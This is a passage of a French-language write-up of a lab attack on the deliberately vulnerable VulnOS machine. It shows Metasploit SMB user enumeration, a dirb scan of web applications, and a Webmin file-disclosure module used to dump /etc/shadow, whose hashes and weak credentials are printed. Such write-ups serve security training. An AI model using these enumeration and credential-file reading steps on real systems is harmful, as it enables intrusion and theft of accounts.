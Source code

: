Du côté de SMB on obtient certaines informations qui malheureusement ne nous serviront peu (une attaque bruteforce via Hydra n'a permis de récupérer aucun account) :  

```
msf auxiliary(smb_enumshares) > exploit

[*] 192.168.1.29:139 - Unix Samba 3.4.7 (Unknown)
[+] 192.168.1.29:  print$ - (DISK) Printer Drivers
[+] 192.168.1.29:  IPC$ - (IPC) IPC Service (VulnOS server (Samba
[+] Ubuntu))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf auxiliary(smb_enumusers) > exploit

[*] 192.168.1.29 VULNOS [ stupiduser, ftp, nobody, sysadmin, vulnosadmin, webmin, hackme, sa ] ( LockoutTries=0 PasswordMin=5 )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Côté serveur web il y a là aussi énormément d'applis (trouvées via dirb) :  

```
---- Scanning URL: http://192.168.1.29/ ----
+ http://192.168.1.29/.htaccess (CODE:200|SIZE:501)
+ http://192.168.1.29/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: http://192.168.1.29/drupal6/
==> DIRECTORY: http://192.168.1.29/egroupware/
==> DIRECTORY: http://192.168.1.29/imgs/
+ http://192.168.1.29/index (CODE:200|SIZE:745)
+ http://192.168.1.29/index2 (CODE:200|SIZE:1066)
==> DIRECTORY: http://192.168.1.29/javascript/
==> DIRECTORY: http://192.168.1.29/mediawiki/
==> DIRECTORY: http://192.168.1.29/phpgroupware/
==> DIRECTORY: http://192.168.1.29/phpldapadmin/
==> DIRECTORY: http://192.168.1.29/phpmyadmin/
==> DIRECTORY: http://192.168.1.29/phppgadmin/
==> DIRECTORY: http://192.168.1.29/phpsysinfo/
+ http://192.168.1.29/server-status (CODE:403|SIZE:293)
```

Quand on arrive sur le Drupal, d'autres liens nous sont encore donnés comme un DVWA, un dolibarr, mutillidae etc..  

J'ai décidé de bouder les applications volontairement vulnérables qui donnent peu d'intérêt pédagogique.  

Un pied dans la porte
---------------------

Du côté du Webmin ce dernier est vulnérable au module `file_disclosure` de *Metasploit*, on peut ainsi récupérer le /etc/shadow :  

```
root:*:16137:0:99999:7:::
(...snip...)
vulnosadmin:$6$SLXu95CH$pVAdp447R4MEFKtHrWcDV7WIBuiP2Yp0NJTVPyg37K9U11SFuLena8p.xbnSVJFAeg1WO28ljNAPrlXaghLmo/:16137:0:99999:7:::
sysadmin:admin:16137:0:99999:7:::
webmin:webmin:16137:0:99999:7:::
hackme:hackme:16137:0:99999:7:::
sa:password1:16137:0:99999:7:::
stupiduser:stupiduser:16137:0:99999:7:::
messagebus:*:16137:0:99999:7:::
distccd:*:16137:0:99999:7:::
sshd:*:16138:0:99999:7:::
openldap:!:16138:0:99999:7:::
```